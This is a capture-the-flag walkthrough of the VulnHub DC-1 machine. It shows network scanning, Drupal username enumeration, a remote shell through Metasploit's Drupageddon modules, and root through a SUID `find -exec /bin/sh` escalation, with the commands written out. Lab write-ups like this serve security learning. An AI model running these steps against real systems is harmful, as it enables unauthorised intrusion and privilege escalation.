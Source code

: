 # DC: 1
[VulnHub link](https://www.vulnhub.com/entry/dc-1,292/)  
By DCAU

## Enumeration ##
* As with [Mr-Robot: 1](https://github.com/leegengyu/CTF-Walkthrough/blob/master/mr-robot-1.md), we are first greeted with a login page that requires users to specify both the username and the password: 
![](/screenshots/dc-1/LoginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-1/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.7`.
* The host is running SSH (port 22), HTTP (port 80) and rpcbind (port 111) services, where the ports for these 3 servers are open.
* Run `nmap -p- -A 10.0.2.7`:
![](/screenshots/dc-1/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, there is an Apache httpd web server running on port 80, with the website being run by a `Drupal CMS`.
* Moreover, there appears to be a long list of results from the `robots.txt` file as well.

## Exploring Apache httpd Service on Port 80 ##
* Open `10.0.2.7` on our browser and we have the welcome page greeting us with a login panel on the left-hand side:
![](/screenshots/dc-1/SiteWebServer.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* I tried a couple of passwords on the account with the username `admin`, with my attempts being spaced out over 3 hours, but I was greeted with this message on the most recent attempt:
![](/screenshots/dc-1/AccountTemporarilyBlocked.jpg)
* Note: I found this [documentation page](https://www.drupal.org/node/1023440) by Drupal that states its policy on blocking logins after 5 failed login attempts, and how it is being recorded.
* I guess that means that we can rule out brute-forcing attempts to get an account access.
* At the same time, I found that the login page did not reveal any hints about whether the account (username) existed, with a failed attempt resulting in this error message:
![](/screenshots/dc-1/invalidLogin.jpg)
* However, if you get the account-temporarily-blocked message as shown above, or if you go to `Request new password` and attempt to recover your password, you would be able to deduce if the particular user existed.
* For the latter, these are the 2 different messages that you encounter when you submit the username or email address of a valid user vs. invalid user:
![](/screenshots/dc-1/AdminUsername.jpg)
* The page source is somewhat long (compared to the other ones that I have seen thus far from the 3 other vulnerable VMs) at around 100-150 lines. However, I could not quite seem to find any noteworthy information from it.
* Visiting `robots.txt`, we see a long list of disallow directories, files and paths:
![](/screenshots/dc-1/robotsTxt.jpg)
* I did not attempt to visit all of them, but from my quick sampling, the directories forbidded access, while the pages gave an access-denied message too.
* I went on to find out more about the CMS that ran the site, which is Drupal who is running on version 7. This was interesting for me because the previous vulnerable VMs were all running on WordPress.
* I ran a quick Google search and found that Drupal 7 had various vulnerabilities that we could exploit.
* To further identify what the version that the Drupal CMS was running on, we will be using `droopescan` ([GitHub link](https://github.com/droope/droopescan)).
* Note: It appears that `droopescan` comes packaged with the Kali VM, as seen [here](https://en.kali.tools/all/?tool=371). I could not find it on mine, hence I will be installing it below:
* After cloning the Git repository, enter the local folder and run `pip install -r requirements.txt`, where `-r` allows to refer to other requirement files as well.
* Run `droopescan scan drupal -u http://10.0.2.7`:
![](/screenshots/dc-1/droopescanResult.jpg)
* We can see that the possible versions of the Drupal CMS is narrowed down to 7.22 - 7.26, though we do not have an exact hit.

## Gaining Reverse Shell ##
* Running `msfconsole`, I searched for modules pertaining to Drupal: `search drupal`:
![](/screenshots/dc-1/msfconsoleSearchResults.jpg)
* We can either `use exploit/multi/http/drupal_drupageddon` or `use exploit/unix/webapp/drupal_drupalgeddon2`.
* According to Rapid7, the [former module](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon) exploits the Drupal HTTP Parameter Key/Value SQL Injection (aka Drupageddon) in order to achieve a remote shell on the vulnerable instance. It was tested against Drupal 7.0 and 7.31 (fixed in 7.32).
* The [latter module](https://www.rapid7.com/db/modules/exploit/unix/webapp/drupal_drupalgeddon2) exploits a Drupal property injection in the Forms API. Drupal 6.x, < 7.58, 8.2.x, < 8.3.9, < 8.4.6, and < 8.5.1 are vulnerable.
* Whichever module that we use, we would first `show options` to see what module option settings is required of us to set.
* There are many parameters in both of the modules, but we would only have to edit RHOST (which is left empty initially): `set RHOST 10.0.2.7`.
* Run show options again to confirm that we have the correct parameters set:
![](/screenshots/dc-1/drupalDrupageddon.jpg)
![](/screenshots/dc-1/drupalDrupalgeddon2.jpg)
* Run `exploit` (not showing 2 screenshots here because running the exploit command for both results in the same output):
![](/screenshots/dc-1/exploit.jpg)
* Enter `sysinfo` to confirm that we have a reverse shell on the right machine and then enter `shell`: we find that we are now user `www-data`.
* Next, we need a privilege escalation in order to get `root` and before continuing further, we will spawn an interactive TTY shell first: `python -c 'import pty; pty.spawn("/bin/bash")'`.
* We will next be finding a list of binaries that have the setuid bit enabled on the vulnerable VM: run `find / -user root -perm -4000 -print 2>/dev/null`.
![](/screenshots/dc-1/suidExecutables.jpg)
* Out of all the binaries returned as part of our `find` command, we will be using `/usr/bin/find`.

## Privilege Escalation (to root) ##
* Normally, we will use the `find` command to search for files, but we will not be specifying any file names in our command (and it will not throw out the entire list of available files as well). Instead, we will use the `-exec` parameter, which will execute the command to spawn a shell, which turns out to give us `root`.
* Run `find -exec "/bin/sh" \;`:
![](/screenshots/dc-1/findCommandPrivilegeEscalation.jpg)
* How the command is constructed is that all following arguments to `find` are taken to be arguments to the command until an argument consisting of `;` is encountered. `\` is the escape character here to protect the semi-colon from expansion by the shell. This explanation is taken from the [Linux manual page](http://man7.org/linux/man-pages/man1/find.1.html)
* Note: Using `/bin/bash` instead will result in a non-root shell. This has nothing to do with the fact that we spawned an interactive TTY `/bin/bash` shell earlier on. I tried to set the TTY shell to `/bin/sh`, but having `/bin/bash` at this point still results in a non-root shell. I suspect that this has to do with existing .bash setting files.
* Note: You can also run the same `find` command with an existing file name (typed out in file including the file extension). The directory that I was in had a bunch of files, the first of which is `COPYRIGHT.txt`. Just add this file name after `find` and before `-exec`. However, this command will not work with a non-existent file name, or if the file extension is missing.
* We are now `root`. To get our final flag, we head to `/root`, and open `thefinalflag.txt`:
![](/screenshots/dc-1/thefinalflag.jpg)
* Note: Running `exit` to terminate our root shell seems to have no effect at all. I could only send a terminate signal (CTRL + C) to the channel, which sends us straight back to our meterpreter terminal.
* Hurray, that is the end of this challenge!